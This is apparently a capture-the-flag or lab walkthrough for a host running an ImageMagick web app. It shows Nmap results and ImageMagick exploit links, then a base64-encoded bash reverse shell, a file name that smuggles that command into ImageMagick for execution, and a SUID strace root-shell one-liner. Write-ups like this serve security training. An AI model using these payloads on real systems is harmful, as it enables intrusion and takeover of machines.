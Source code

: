 ____

> [!info]
> IP= 192.168.190.178

# Nmap
|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|80/tcp|open|http|

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: ImageMagick Identifier
```
# 80 - http
- ImageMagick Identifier
- Version: 6.9.6-4

![[Pasted image 20240201221517.png]]

https://github.com/Sybil-Scan/imagemagick-lfi-poc

https://github.com/voidz0r/CVE-2022-44268

https://github.com/ImageMagick/ImageMagick/issues/6339

```bash
echo "bash -i >& /dev/tcp/192.168.45.180/4444 0>&1 | sh" | base64 -w 0
```

```bash
|en"`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE4MC80NDQ0IDA+JjEgfCBzaAo= | base64 -d | bash`".png
```

# PrivEsc

## suid strace

```bash
strace -o /dev/null /bin/sh -p
```